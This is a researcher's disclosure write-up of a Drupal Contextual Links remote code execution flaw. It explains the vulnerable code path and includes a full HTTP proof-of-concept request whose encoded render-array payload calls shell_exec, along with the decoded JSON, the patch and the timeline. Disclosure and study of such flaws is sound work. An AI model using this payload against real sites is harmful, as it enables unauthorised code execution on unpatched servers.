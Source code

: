 ```yaml
---
layout: default
title: Drupal Core PHP Code Injection
categories: security
---
```


## Drupal Overview and History

Drupal is a content management system. In March of 2018, a vulnerability dubbed Drupalgeddon2 was announced ([CVE-2018-7600](https://nvd.nist.gov/vuln/detail/cve-2018-7600), [SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)) that enabled an unauthenticated attacker to achieve remote code execution on most versions of Drupal with default configuration.

The vulnerability was caused by Drupal's [render arrays](https://www.drupal.org/docs/drupal-apis/render-api/render-arrays). Render arrays are just ordinary PHP arrays, except that keys that start with # are given special processing that allow code execution by design. These generally aren't meant to come from user input, so the Drupal maintainers patched this by implementing a broad [RequestSanitizer](https://github.com/drupal/drupal/blob/8.6.1/core/lib/Drupal/Core/Security/RequestSanitizer.php). The sanitizer runs early in the page load and strips array keys that begin with # from the query string.

Additional paths for exploitation were found in April 2018 ([SA-CORE-2018-004](https://www.drupal.org/sa-core-2018-004)) and the RequestSanitizer was expanded to process the request body and cookies as well.

## Search
The knowledge that something like Drupalgeddon2 could be lurking in the codebase for so long motivated me to begin looking for my own RCE in Drupal in my free time.

I made a spreadsheet of every URL route in Drupal and initially focused on routes available to unauthenticated users. After a few weeks without success, I started looking at routes that required low-level user permissions, and pretty quickly found an issue in the core Contextual Links module.

## Vector
The [Contextual Links module](https://www.drupal.org/docs/8/core/modules/contextual/working-with-contextual-links) enables users to edit content or perform other tasks while browsing their site without navigating to the administrator UI.

![Person using contextual links module](/assets/contextual-menu.gif "Image from Drupal.org under the <a href='https://www.drupal.org/terms'>Creative Commons License, Attribution-ShareAlike 2.0</a>")

As the functionality is used in several different contexts, the controller that handles rendering them is very generic.

```php
  /**
   * Returns the requested rendered contextual links.
   *
   * Given a list of contextual links IDs, render them. Hence this must be
   * robust to handle arbitrary input.
   */
  public function render(Request $request) {
    $ids = $request->request->get('ids');
    if (!isset($ids)) {
      throw new BadRequestHttpException(t('No contextual ids specified.'));
    }

    $rendered = [];
    foreach ($ids as $id) {
      $element = [
        '#type' => 'contextual_links',
        '#contextual_links' => _contextual_id_to_links($id),
      ];
      $rendered[$id] = $this->renderer->renderRoot($element);
    }

    return new JsonResponse($rendered);
  }
```

We can see that user input from the `ids` parameter in the request POST body is processed by `_contextual_id_to_links` before being added to a render array. The render array is then rendered and the result is returned to the user. Let's look at `_contextual_id_to_links`.

```php
/**
 * Unserializes the result of _contextual_links_to_id().
 *
 * @see _contextual_links_to_id
 *
 * @param string $id
 *   A serialized representation of a #contextual_links property value array.
 *
 * @return array
 *   The value for a #contextual_links property.
 */
function _contextual_id_to_links($id) {
  $contextual_links = [];
  $contexts = explode('|', $id);
  foreach ($contexts as $context) {
    list($group, $route_parameters_raw, $metadata_raw) = explode(':', $context);
    parse_str($route_parameters_raw, $route_parameters);
    $metadata = [];
    parse_str($metadata_raw, $metadata);
    $contextual_links[$group] = [
      'route_parameters' => $route_parameters,
      'metadata' => $metadata,
    ];
  }
  return $contextual_links;
}
```

Here we see the user-provided id is split into three parts separated by :. The latter two parts are then passed through the PHP [parse_str](https://www.php.net/manual/en/function.parse-str.php) which treats them as a URL-encoded query string.

At this point it might seem like all we need to do is pass a double-URL-encoded query string in for one of these parameters and we'll have our render array injection, but if I recall correctly, that didn't work. However, the metadata parameter receives further processing later on that provides another avenue.

```php
/**
 * Implements hook_contextual_links_view_alter().
 *
 * @see \Drupal\contextual\Plugin\views\field\ContextualLinks::render()
 */
function contextual_contextual_links_view_alter(&$element, $items) {
  if (isset($element['#contextual_links']['contextual'])) {
    $encoded_links = $element['#contextual_links']['contextual']['metadata']['contextual-views-field-links'];
    $element['#links'] = Json::decode(rawurldecode($encoded_links));
  }
}
```

By passing a JSON encoded array for the `contextual-views-field-links` subparameter of `metadata`, we can inject a render array while evading the `RequestSanitizer`.

## Proof of Concept
The POC below requires the ‘Access Contextual Links' permission to be granted to unauthenticated users.

```http
POST /contextual/render HTTP/1.1
Host: local.test
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 906

ids[]=contextual::contextual-views-field-links=%257B%250A%2520%2520%2520%2520%2522asdf%2522%253A%250A%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522title%2522%253A%2520%257B%2522%2523lazy_builder%2522%253A%2520%255B%2522shell_exec%2522%252C%2520%255B%2522touch%2520%252Ftmp%252Fhellofromviews%2522%255D%255D%257D%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522href%2522%253A%2520%2522asdf%2522%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522attributes%2522%253A%250A%2520%2520%2520%2520%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2522class%2522%253A%255B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2522use-ajax%2522%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%255D%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%257D%250A%257D
```

The payload corresponds to a double-URL-encoding of this:

```json
{
    "asdf":
    {
        "title": {"#lazy_builder": ["shell_exec", ["touch /tmp/hellofromviews"]]},
        "href": "asdf",
        "attributes":
        {
            "class":[
                "use-ajax"
            ]
        }
    }
}
```

When the array is rendered, shell_exec is called and a file is created in the tmp directory as proof.

## Patch
The issue was patched by returning an HMAC code along with the contextual links id list at the time it's generated, and then taking that code as an additional parameter at render time and validating it.

## Timeline
* August 29, 2018 08:50 PM - Reported to Drupal security team
* August 30, 2018 12:57 AM - Report validated by Drupal security team
* October 17, 2018 - Fix released in Drupal 8.5.8 and Drupal 8.6.2 ([DRUPAL-SA-CORE-2018-006](https://www.drupal.org/sa-core-2018-006))
